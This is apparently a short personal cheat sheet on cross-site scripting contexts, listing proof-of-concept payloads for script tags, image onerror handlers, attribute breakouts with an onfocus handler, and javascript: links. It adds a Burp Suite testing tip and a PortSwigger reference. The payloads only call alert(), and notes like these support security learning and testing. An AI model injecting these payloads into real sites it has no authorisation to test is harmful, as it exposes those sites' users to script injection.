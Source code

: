 # XSS contexts:
## normal:
```
<script>alert(document.domain)</script> 
```
```
<img src=1 onerror=alert(1)>
```
### in tag attributes:
```
"><script>alert(document.domain)</script>
```
More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:
```
" autofocus onfocus=alert(document.domain) x="
```
### tag attribute that can make its own scriptable context:
```
<a href="javascript:alert(document.domain)">
```
# some tricks:
- a good way to test payloads is to include a random search term before the payload. that way in the response tab of burp u can see each and every location the term appears 
# Topic References:
- XSS in hidden input feilds: https://portswigger.net/research/xss-in-hidden-input-fields
